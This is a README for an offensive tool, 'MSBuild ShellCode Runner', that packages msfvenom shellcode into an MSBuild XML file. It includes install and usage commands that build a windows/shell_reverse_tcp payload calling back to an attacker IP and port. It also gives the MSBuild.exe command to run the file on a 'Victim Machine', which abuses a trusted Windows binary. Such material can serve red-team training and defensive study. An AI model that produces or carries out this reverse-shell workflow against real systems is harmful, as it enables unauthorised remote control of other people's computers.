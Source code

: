 # MSBuild ShellCode Runner

**Credits:**
Thanks to [ired.team](https://www.ired.team/) for publishing an article using msbuild to run C#. I just made this to automate the process of shellcode creation from `msfvenom`

[https://www.ired.team/offensive-security/code-execution/using-msbuild-to-execute-shellcode-in-c](https://www.ired.team/offensive-security/code-execution/using-msbuild-to-execute-shellcode-in-c)

## Installation
Install the metasploit framework first before using this

```bash
git clone https://github.com/jmrcsnchz/msbuild-shellcode.git
```
```bash
pip3 install argparse
```
```bash
python3 build.py -h

usage: build.py [-h] -x PAYLOAD -l LHOST -p LPORT [-a ARCH]
build.py: error: the following arguments are required: -x/--payload, -l/--lhost, -p/--lport
```


## Usage

```bash
cd msbuild-shellcode
```

```bash
python3 build.py -a x86 -x windows/shell_reverse_tcp -l 130.205.34.70 -p 4444
```
![](https://i.ibb.co/mS9zJFJ/Untitled.png)
## Execute in Victim Machine
```cmd
C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe C:\random\path\bad.xml
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.
